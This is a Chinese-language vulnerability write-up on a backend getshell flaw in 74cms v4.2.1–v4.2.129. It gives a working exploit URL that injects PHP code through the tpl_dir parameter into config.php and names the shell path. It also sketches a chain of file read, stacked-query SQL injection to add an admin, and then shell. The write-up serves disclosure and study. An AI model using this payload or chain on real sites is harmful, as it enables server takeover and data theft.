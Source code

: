 74cms v4.2.1-v4.2.129-后台getshell漏洞
======================================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02漏洞演示
------------

![](./.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId24.png)

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

    shell:http://74cms.test/Application/Home/Conf/config.php
    路径：\74cms\upload\Application\Home\Conf\config.php

![](./.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId25.png)

![](./.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId26.png)

0x03 漏洞原理
-------------

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
    路径：74cms\upload\Application\Admin\Controller\TplController.class.php

![](./.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId28.png)

    路径： 74cms\upload\Application\Common\Controller\BackendController.class.php

![](./.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId29.png)

0x04题外话-认真版getshell方法
-----------------------------

认真版getshell方法：实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。首先利用-任意文件读取漏洞-读取系统中的hash值然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户在通过这个后台getshell漏洞即可完成一套日穿

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm
